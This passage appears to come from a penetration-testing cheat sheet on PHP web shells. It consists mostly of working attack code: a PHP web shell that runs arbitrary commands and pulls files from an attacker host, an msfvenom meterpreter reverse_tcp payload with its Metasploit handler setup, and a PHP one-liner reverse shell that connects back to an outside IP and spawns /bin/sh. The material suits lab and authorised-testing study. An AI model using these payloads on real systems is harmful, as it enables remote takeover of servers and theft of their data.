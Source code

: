   The sed command in the end

  ```none
  sed '/<html>/,/<\/html>/d'
  ```

  deletes the content between <html> and </html> tag.

  If you also want to provide upload functionality (imagine, if we need to upload nc64.exe on Windows or other-binaries on linux), we can put the below code in the php file

  ```none
  <?php 
   if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://yourIP/" . $_REQUEST['fupload']));
   };
   if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   }
   ?>
  ```

  The above can be accessed by

  ```none
  http://IP/shell.php?fupload=filename_on_your_webserver
  ```

- **PHP Meterpreter**

  We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

  ```none
  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php
  ```

  We can set the multi-handler in metasploit by

  ```none
  use exploit/multi/handler
  set payload php/meterpreter/reverse_tcp
  set LHOST yourIP
  run
  ```

- **PHP Reverse Shell**

  The code below assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4 or 5 or 6.

  ```none
  php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

  The above can be connected to by listening on port 1337 by using nc.

### Weevely
